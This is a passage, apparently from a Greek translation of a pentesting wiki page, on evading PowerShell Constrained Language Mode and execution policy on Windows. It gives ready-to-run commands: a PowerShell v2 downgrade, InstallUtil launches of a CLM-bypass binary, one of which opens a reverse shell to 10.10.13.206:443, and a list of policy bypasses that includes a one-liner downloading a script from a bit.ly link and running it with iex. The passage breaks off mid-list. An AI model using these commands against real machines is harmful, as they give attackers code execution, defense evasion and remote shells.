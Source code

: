 {{#ref}}
active-directory-methodology/laps.md
{{#endref}}

## PS Constrained Language Mode

Το PowerShell [**Constrained Language Mode**](https://devblogs.microsoft.com/powershell/powershell-constrained-language-mode/) **περιορίζει πολλές από τις δυνατότητες** που απαιτούνται για τη σωστή χρήση του PowerShell, όπως η μπλοκάρισμα COM αντικειμένων, η επιτρεπόμενη χρήση μόνο εγκεκριμένων τύπων .NET, ροές εργασίας βασισμένες σε XAML, κλάσεις PowerShell και άλλα.

### **Έλεγχος**
```powershell
$ExecutionContext.SessionState.LanguageMode
#Values could be: FullLanguage or ConstrainedLanguage
```
### Παράκαμψη
```powershell
#Easy bypass
Powershell -version 2
```
Στα τρέχοντα Windows, αυτή η παράκαμψη δεν θα λειτουργήσει, αλλά μπορείτε να χρησιμοποιήσετε [**PSByPassCLM**](https://github.com/padovah4ck/PSByPassCLM).\
**Για να το μεταγλωττίσετε, μπορεί να χρειαστεί** **να** _**Προσθέσετε μια Αναφορά**_ -> _Περιήγηση_ -> _Περιήγηση_ -> προσθέστε `C:\Windows\Microsoft.NET\assembly\GAC_MSIL\System.Management.Automation\v4.0_3.0.0.0\31bf3856ad364e35\System.Management.Automation.dll` και **να αλλάξετε το έργο σε .Net4.5**.

#### Άμεση παράκαμψη:
```bash
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /U c:\temp\psby.exe
```
#### Αντίστροφη θήκη:
```bash
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /revshell=true /rhost=10.10.13.206 /rport=443 /U c:\temp\psby.exe
```
Μπορείτε να χρησιμοποιήσετε [**ReflectivePick**](https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerPick) ή [**SharpPick**](https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerPick) για να **εκτελέσετε κώδικα Powershell** σε οποιαδήποτε διαδικασία και να παρακάμψετε τη περιορισμένη λειτουργία. Για περισσότερες πληροφορίες δείτε: [https://hunter2.gitbook.io/darthsidious/defense-evasion/bypassing-applocker-and-powershell-contstrained-language-mode](https://hunter2.gitbook.io/darthsidious/defense-evasion/bypassing-applocker-and-powershell-contstrained-language-mode).

## Πολιτική Εκτέλεσης PS

Από προεπιλογή είναι ρυθμισμένη σε **restricted.** Κύριοι τρόποι για να παρακάμψετε αυτή την πολιτική:
```powershell
1º Just copy and paste inside the interactive PS console
2º Read en Exec
Get-Content .runme.ps1 | PowerShell.exe -noprofile -
3º Read and Exec
Get-Content .runme.ps1 | Invoke-Expression
4º Use other execution policy
PowerShell.exe -ExecutionPolicy Bypass -File .runme.ps1
5º Change users execution policy
Set-Executionpolicy -Scope CurrentUser -ExecutionPolicy UnRestricted
6º Change execution policy for this session
Set-ExecutionPolicy Bypass -Scope Process
7º Download and execute:
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('http://bit.ly/1kEgbuH')"
8º Use command switch
```